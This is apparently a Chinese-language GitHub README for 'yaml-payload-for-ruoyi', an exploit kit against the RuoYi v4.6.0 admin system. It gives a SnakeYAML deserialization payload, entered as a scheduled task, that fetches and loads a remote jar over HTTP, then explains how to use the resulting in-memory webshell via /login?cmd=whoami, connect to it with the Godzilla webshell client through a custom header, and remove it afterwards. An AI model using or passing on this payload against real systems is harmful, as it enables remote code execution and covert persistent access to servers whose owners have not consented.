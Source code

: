 ## yaml-payload-for-ruoyi
### 测试环境
ruoyi v4.6.0

### 用法
使用 mvn clean package 打包生成 jar，或者直接下载 release 中的 jar，放在 web 路径下

![web](img/1.png)

ruoyi 后台创建定时任务

![定时任务](img/2.png)

payload
```bash
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:12346/yaml-payload-for-ruoyi-1.0-SNAPSHOT.jar"] 
  ]]
]')
```

执行定时任务

![定时任务](img/3.png)

web 服务器接受到请求

![定时任务](img/4.png)

执行命令 /login?cmd=whoami

![定时任务](img/5.png)

哥斯拉连接，需要配置请求头 X-Cmd-Ruoyi: 任意字符串

![header](img/6.png)

连接地址 /login?cmd=1，有 cmd 参数即可

![godzilla](img/7.png)

删除内存马 /login?cmd=delete

### 参考
1. https://xz.aliyun.com/t/10651
2. https://github.com/lz2y/yaml-payload-for-ruoyi